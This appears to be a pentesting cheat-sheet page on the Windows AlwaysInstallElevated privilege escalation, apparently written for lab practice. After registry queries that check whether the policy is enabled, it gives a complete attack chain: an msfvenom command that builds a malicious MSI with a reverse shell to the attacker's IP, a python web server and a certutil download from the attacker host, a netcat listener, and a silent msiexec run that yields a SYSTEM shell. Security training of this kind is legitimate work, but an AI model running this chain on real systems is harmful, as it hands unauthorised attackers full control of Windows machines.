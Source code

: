 ```yaml
---
title: AlwaysInstallElevated
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - privilege
  - escalation
  - windows
---
```

# AlwaysInstallElevated

This setting can be set via Local Group Policy by setting `Always install with elevated privileges` to `Enabled` under the following paths.

- `Computer Configuration\Administrative Templates\Windows Components\Windows Installer`
- `User Configuration\Administrative Templates\Windows Components\Windows Installer`

#### Enumerating Always Install Elevated Settings

```powershell
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

Possible output:

```powershell-session

HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1


HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

Our enumeration shows us that the `AlwaysInstallElevated` key exists, so the policy is indeed enabled on the target system.


#### Generating MSI Package

We can exploit this by generating a malicious MSI package and execute it via the command line to obtain a reverse shell with SYSTEM privileges.

From our attacker machine:

```bash
msfvenom -p windows/shell_reverse_tcp lhost=$AttackerIP lport=9443 -f msi > aie.msi

# And serve the content
python -m http.server 8000
```

From the windows host machine:

```
certutil.exe -urlcache -split -f http://$ipAtacker:8000/aie.msi aie.msi
```

#### Executing MSI Package

We will start a netcat listener in our attacking machine:

```bash
nc -lnvp 9443
```

And execute the file from the command line like so:

```cmd-session
msiexec /i c:\users\htb-student\desktop\aie.msi /quiet /qn /norestart
```